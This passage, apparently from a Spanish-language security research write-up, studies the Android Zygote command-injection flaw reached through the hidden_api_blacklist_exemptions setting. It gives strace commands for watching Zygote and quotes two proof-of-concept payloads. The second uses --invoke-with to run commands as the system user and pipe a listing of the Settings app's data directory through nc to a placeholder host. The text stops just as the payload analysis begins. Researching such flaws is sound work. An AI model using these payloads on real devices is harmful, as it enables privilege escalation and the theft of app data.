 En Android 12 en adelante, la *syscall* cambia. Después de repetir el proceso anterior pero en el emulador con Android 12, y con un detallito para no andar copiando y pegando el PID de Zygote, terminaremos con un comando así:

`strace -s 12200 -e trace=read -p "$(ps -A | grep zygote64 | awk '{print $2}')" `

Con este par de comandos tenemos suficiente para poder ver lo que entra a Zygote y continuar con la exploración de esta vulnerabilidad. Recomendamos jugar con ellos, abrir aplicaciones, notar los cambios, etc. Esto nos dará una visión más profunda de cómo se comunica *system server* con Zygote.

## -[ 0x05 Primeras exploraciones. ]-

Para cambiar el valor de `hidden_api_blacklist_exemptions`, solo hace falta usar el comando `settings` de `adb shell` de la siguiente manera:

```bash
settings put global hidden_api_blacklist_exemptions [valor de la variable]
```
&nbsp;
Flanker017 nos da una prueba de concepto rápida que podemos probar en Android 11:

```bash
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
3
--runtime-args
--setuid=1000
--setgid=1000
1
--boot-completed"
```
&nbsp;
Si pegamos este comando en la shell de `adb`, solo conseguiremos dejar el teléfono en un estado inusable. Es posible que esto ocurra muchas veces durante este experimento. A veces se arregla reiniciando el emulador, y otras veces hay que restaurarlo por completo (usando la opción "wipe data") para que funcione de nuevo.

De cualquier forma, ese bloqueo indica que algo pasó, pero no llegó a buen término, ya que el teléfono se bloqueó y no pudimos ver ninguna evidencia de que los comandos se hubieran ejecutado.

El mismo Flanker017 nos da pistas más adelante en su artículo cuando habla de los métodos de explotación y encuentra un argumento que será clave en nuestro exploit: `--invoke-with`.

Este argumento permite pasar un comando de bash que será usado por Zygote antes de lanzar la aplicación. Como en un buen *command injection*, podemos ejecutar varios comandos a la vez separándolos con punto y coma (`;`) y terminar con `#` para *comentar* cualquier cosa que Zygote agregue después.

Esto luce prometedor.

El write-up de LLeavesg nos da otra prueba de concepto más completa, veamos:

```bash





8
--setuid=1000
--setgid=1000
--runtime-args
--seinfo=platform:privapp:targetSdkVersion=30:complete
--runtime-flags=1
--nice-name=zYg0te
--invoke-with
echo "$(id; cd /data/data/com.android.settings ; pwd; ls -al)" | nc xxx xxx; #
,,,,X
```
&nbsp;
Analicemos esta _payload_:  